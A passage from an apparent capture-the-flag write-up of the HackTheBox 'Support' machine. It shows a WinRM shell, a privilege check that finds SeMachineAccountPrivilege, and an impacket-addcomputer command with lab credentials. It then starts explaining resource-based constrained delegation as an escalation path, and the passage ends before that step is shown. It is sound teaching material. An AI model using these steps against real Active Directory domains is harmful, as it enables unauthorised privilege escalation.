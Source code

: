 ## A Moment of Clarity

At some point I stopped and thought:  
**"Wait a second... I already have a shell and a valid user. Why not just check my privileges with a good easy old-fashioned `whoami /priv`?"**

Sometimes, the simplest commands are the most revealing — and that was exactly the case here.

```bash
*Evil-WinRM* PS C:\Users\support\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

```

Right away, the **first entry** in the output of `whoami /priv` grabbed my attention.  
I didn’t even need to look up what it was — the **description** in the terminal already explained its purpose clearly.

That was my "Aha!" moment.

After a bit of research on how this privilege could allow the creation of a **new workstation in a domain**, I found the perfect path forward.  
It led me to a **straightforward yet powerful** privilege escalation method.

## Privilege Escalation: The Missing Piece

First let's add a workstation:

```bash
┌──(uriel-sg㉿Uriel-SG)-[~/Scrivania/support]
└─$ impacket-addcomputer -computer-name 'urielsg-PC$' -computer-pass 'Urielsg!' -dc-ip 10.10.11.174 SUPPORT.htb/support:Ironside47pleasure40Watchful  
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Successfully added machine account urielsg-PC$ with password Urielsg!.
```

Let’s configure RBCD on the new PC!

🧠 What is RBCD?
RBCD stands for Resource-Based Constrained Delegation.
It's a Windows Active Directory feature that allows a computer account to impersonate users when accessing specific services on another machine — but only if explicitly permitted by the target machine.
With RBCD, the permission is set on the target machine's computer object, allowing it to trust another machine's account to delegate.
